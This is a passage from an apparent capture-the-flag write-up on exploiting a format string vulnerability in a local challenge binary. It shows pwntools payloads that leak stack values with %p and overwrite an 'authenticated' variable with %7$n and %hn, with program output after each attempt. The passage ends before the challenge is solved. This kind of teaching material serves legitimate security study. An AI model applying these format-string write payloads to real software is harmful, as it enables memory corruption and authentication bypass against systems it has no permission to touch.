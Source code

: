 ```
[+] Starting local process './chall': pid 90711
0xffbbf94c
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 90711)
Hi, A L\xf9\xbb\xff0x32 0xf7e1d620 0x565e1239 0xf7f94ff4 0x2c 0x20410000 0xffbbf94c 0x25207025 0x70252070 0x20702520 
[authenticated] = 104
Nope! You won't be getting any flags
[*] Got EOF while reading in interactive
```

```py
p.sendline(b'A ' + addressBytesInStack + b'%p %p %p %p %p %p %p %p %7$n')
```

```
[+] Starting local process './chall': pid 90887
0xffa16cdc
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 90887)
Hi, A \xdcl\xa1\xff0x32 0xf7e1d620 0x565ea239 0xf7ff4ff4 0x2c 0x20410000 0xffa16cdc 0x25207025 
[authenticated] = 82
Nope! You won't be getting any flags
[*] Got EOF while reading in interactive
```

```py
p.sendline(b'A%' + addressBytesInStack + b'%7$n')
```

```
[+] Starting local process './chall': pid 92874
0xffcde34c
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 92874)
Hi, A%\xe3\xcd\xff
[authenticated] = 5
Nope! You won't be getting any flags
[*] Got EOF while reading in interactive
```

As you can see, we are actually modifying the `authenticated` value, but since there is only `%n`, so, the program will take directly 4 bytes, calculate the length, then write it back in the correspondante address. In order to make it consider less bytes, we use `%hn`, with `%2x` to specify the number of bytes we want :

```py
p.sendline(b'AA' + addressBytesInStack + b'%2x%7$hn')
```

```
[+] Starting local process './chall': pid 98734
0xff9c946c
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 98734)
Hi, AAl\x94\x9c\xff32
[authenticated] = 8
Nope! You won't be getting any flags
```

